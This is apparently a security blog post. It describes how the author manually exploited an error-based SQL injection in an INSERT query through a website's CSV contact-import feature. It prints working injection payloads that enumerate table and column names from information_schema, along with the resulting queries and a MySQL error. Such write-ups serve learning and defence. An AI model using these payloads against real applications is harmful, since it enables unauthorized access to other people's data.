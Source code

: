 +++
title = 'Exploiting Sql Injection Insert Statement'
date = 2025-01-09T15:11:14+01:00
draft = false
type = "post"
excerpt = "In this blog post, I will discuss how I manually exploited an SQL injection vulnerability in an INSERT query statement."
authors = ["Hassan AL ACHEK"]
tags = []
categories = []
readingTime = 5  
hero = "/images/default.jpg"
+++
# What is SQL Injection?
SQL Injection is a vulnerability that occurs when user input is directly used to build a query statement, which is then executed against the application's database. By taking user input without proper validation and sanitization and dynamically building SQL queries, an attacker can insert carefully crafted input—often referred to as a payload—to exploit and execute malicious queries. These queries can allow the attacker to read, write, delete, or modify data in the database. 

There are multiple types of SQL injection. For more detailed information about this vulnerability, I recommend checking out PortSwigger Academy or the OWASP guide.

# INSERT Statement:
This statement is usually used to insert new row into an SQL table. So for example in a web application if you want to insert a new user into the users table you will execute something like that:

`INSERT INTO users(name, mail, phone_number, password) VALUES ('Hassan', 'hassan@gmail.com', '777777', 'pass123')`

# SQL Injection into INSERT Statement
## History:
I was testing a website and found a functionality that allowed me to import contacts from a CSV file. The CSV file consisted of 5 columns, and I could choose the type of separator used in the file. The default separator was a comma (,), but I could also choose a slash (/) or a semicolon (;).

## The Vulnerability:
After testing this functionality, I noticed that the contacts imported from the CSV file were saved into the database for the user I was logged in as. 

This was done to store the contacts so that the user could use them later—for example, to send messages to these contacts or create groups for bulk SMS sending.

The header of the CSV files is the following:
`Name, Family Name, Number, Email, Info`

I decided to put a `'` in one of the columns, so i created a CSV file with the following row:

`hassan, alachek', 7777, hassan@gmail.com, engineer`
The result was and i clicked import i got the following SQL error:

```
dberr: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '7777', 't', 't', 'Axxxxxx')' at line 1
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES('t', 't'', '7777', 't', 't', 'Axxxxxx')   
```

So this is an error based SQLI. I decided to exploit it manually by crafting each time a new CSV file and import it to the web application.

![Import Functionality](/images/sqli-import.png)

### Reading All Table Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"),'Axxxxxx')#;test
```

The resulting SQL query:

```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"), 'Axxxxxx')
```
![All DB Tables](/images/sqli-result-tables.png)

### Reading All Column Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"),'Axxxxxx')#;test
```

The resulting SQL query:
```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"), 'Axxxxxx')
```

Using a nested query allows you to execute the inner query and then replace its result into the `VALUES` clause of the `INSERT` query.

Below is an illustration of the execution flow:

![Execution Flow](/images/sqli-execution-flow.png)





